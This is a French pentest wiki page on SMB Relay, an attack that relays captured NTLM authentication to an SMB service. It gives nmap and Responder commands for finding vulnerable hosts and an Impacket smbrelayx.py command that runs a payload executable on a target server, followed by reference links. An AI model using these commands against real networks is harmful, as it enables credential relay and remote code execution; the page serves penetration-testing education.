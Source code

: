 ```yaml
---
title: SMB Relay
permalink: /SMB_Relay/
---
```


# SMB Relay

SMB Relay est une méthode d'attaque permettant de relayer une authentification NTLM pour s'authentifier auprès d'un service [SMB](/SMB "wikilink").

## Méthodologie

Pour pouvoir faire un SMB relay il faut avoir une requête à relayer. De nombreuses méthodes sont décrites sur [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/). La méthode la plus classique reste Responder.

## Outils

### Découverte

Il est possible d'identifier les serveurs vulnérables avec un des scripts suivants:

``` bash
/usr/share/responder/tools/RunFinger.py -i $target
nmap --script smb-security-mode.nse -Pn -p445 X.X.X.X/24 -oA nmap_smb_security_mode_full
```


### Exploitation

[Impacket](/Impacket "wikilink") propose un outil **smbrelayx.py**:

Une utilisation simple est la suivante:

``` bash
smbrelayx.py -e payload.exe -h 10.33.1.1
```

Ceci executera le fichier payload.exe sur le serveur 10.33.1.1 si l'utilisateur qu'on relaie a les droits nécessaires.

[Responder](/Responder "wikilink") contient également différents outils.

## Références

### Liens externes

-   [SMBRelay avec python sur SANS](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)
-   [SMB Relay sur carnal0wnage](http://carnal0wnage.attackresearch.com/2012/11/windows-7-and-smb-relay.html)
-   [Méthodes de défense sur skullsecurity](https://blog.skullsecurity.org/2008/ms08-068-preventing-smbrelay-attacks)
-   [MS08_068 + MS10_046 = FUN UNTIL 2018](http://room362.com/post/2012/2012-02-11-ms08_068-ms10_046-fun-until-2018/)
-   [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)


